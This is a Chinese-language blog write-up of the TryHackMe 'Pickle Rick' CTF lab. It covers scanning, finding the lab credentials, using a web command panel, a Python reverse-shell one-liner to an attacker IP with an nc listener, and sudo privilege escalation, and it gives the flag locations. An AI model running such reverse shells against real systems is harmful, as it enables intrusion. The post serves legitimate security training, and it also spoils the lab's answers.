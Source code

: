 ```yaml
---
title: Tryhackme-easy-Pickle Rick
slug: tryhackmeeasypickle-rick-1vlraf
url: /post/tryhackmeeasypickle-rick-1vlraf.html
date: '2024-08-14 14:08:26+08:00'
lastmod: '2025-05-07 21:28:57+08:00'
toc: true
categories:
  - penetration
isCJKLanguage: true
---
```


# Tryhackme-easy-Pickle Rick

# 前言

一个简单靶场，kali环境有些小问题，这次是windows下做的

A Rick and Morty CTF. Help turn Rick back into a human!

# 过程

首先给出一个页面

```plain
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

很明显提示说使用burpsuite

通过抓包得到一条提示信息

```plain
Note to self, remember username!
Username: R1ckRul3s
```

先使用扫描存在的端口，发现存在了两个开放端口

```plain
2024/2/23 23:27:09    开始扫描...
10.10.242.108:22
10.10.242.108:80
```

然后来扫一下目录

```plain
login.php
robots.txt
```

在robots.txt下发现存在字符串，当作密码

```plain
Wubbalubbadubdub
```

login.php尝试登录，登陆后成功跳转portal.php

存在一个可能是命令执行的窗口，ls后查看

```plain
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

访问Sup3rS3cretPickl3Ingred.txt，得到第一个flag

在clue.txt发现一段话

```plain
Look around the file system for the other ingredient.
```

denied.php禁止访问

开始反弹shell

```plain
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.71.162 ",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```plain
nc -nlvp 1234
```

​![](https://s2.loli.net/2024/02/25/RbVJ34EyWQNHPaT.png)​

成功反弹后进行提权操作

```plain
sudo -l
```

发现当前甚至没有设置基础密码

```plain
Matching Defaults entries for www-data on ip-10-10-242-108.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-108.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```plain
sudo su
```

成功提权

然后查找相应的两个flag

```plain
cat "second ingredients"
```

​![](https://s2.loli.net/2024/02/25/tmTeXNpjWKaqfEy.png)​

```plain
cat ./3rd.txt
```

​![](https://s2.loli.net/2024/02/25/H7wTqBGDkIljEb8.png)​
